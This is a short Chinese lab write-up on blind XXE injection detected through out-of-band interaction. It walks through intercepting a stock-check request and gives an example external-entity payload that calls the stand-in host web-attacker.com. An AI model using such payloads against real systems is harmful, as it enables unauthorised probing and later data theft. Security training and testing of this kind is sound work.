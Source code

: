 # 题意
![](pic/20-1.png)
实验只要能产生带外数据即可。

# 解题思路
首先点击Check stock并抓包，然后在包中加入payload：
![](pic/payload.png)

发送即可，可以在collaborator中看到相关信息

![](pic/res.png)
# 知识点
## XXE盲注
许多XXE实例都是盲注。意味着应用程序不会在响应中返回任何被定义的外部实体的值，所以直接获取服务端文件是不可能的。但是盲注XXE仍然可以被检测并利用。比如用带外技术来发现漏洞并利用其提取数据。也可以出发XML解析错误导致敏感信息包含在错误信息中泄露。

## 利用带外数据实现盲注
例如，可以定义如下外部实体:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
这个XXE攻击导致服务器向该URL执行了一个后端http请求。攻击者可以监视DNS查询和http请求来验证攻击是否成功。